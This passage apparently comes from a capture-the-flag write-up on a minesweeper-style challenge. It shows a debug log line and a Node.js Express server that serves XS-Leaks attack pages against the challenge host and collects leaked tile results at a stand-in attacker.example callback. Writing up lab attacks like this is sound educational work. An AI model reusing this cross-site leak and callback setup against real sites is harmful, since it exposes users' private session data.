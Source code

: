 ```hl_lines=17 22 25
[DEBUG]   - 200 https://attacker.example/callback/safe
```

Awesome! Now we just need to put this together to be able to quickly know
whether any tile of our choosing is a bomb.

## Tying It All Together

To more efficiently trigger the bomb oracle, we can create a Node.js app using
[Express] and [Mustache] that receives the tile to be explored through the
redirect, and prints the outcome of the callback:

```js
import express from 'express';
import mustacheExpress from 'mustache-express';

const CHALL_HOST = "https://gosweeper.example";
const CALLBACK_URL = "https://attacker.example/xsleaks-callback";

const userId = "fe24ecea6cf48d9604127b1204bb24fd";

const app = express();
const port = 3000;

app.engine("mustache", mustacheExpress());

app.set('views', "./templates");
app.set('view engine', 'mustache');

app.get('/entry/:tile', (req, res) => {
  const { tile } = req.params;
  res.render("entry", { CHALL_HOST, userId, tile });
});

app.get('/xsleaks/:tile', (req, res) => {
  const { tile } = req.params;
  res.render("xsleaks", { CHALL_HOST, CALLBACK_URL, tile });
});

app.post('/xsleaks-callback/:result', (req, res) => {
  const { result } = req.params;
  console.log(result);
  res.status(200);
  res.end();
});

app.listen(port, () => {
  console.log(`Listening on port ${port}`);
});
```

<details><summary>Mustache templates</summary></details>
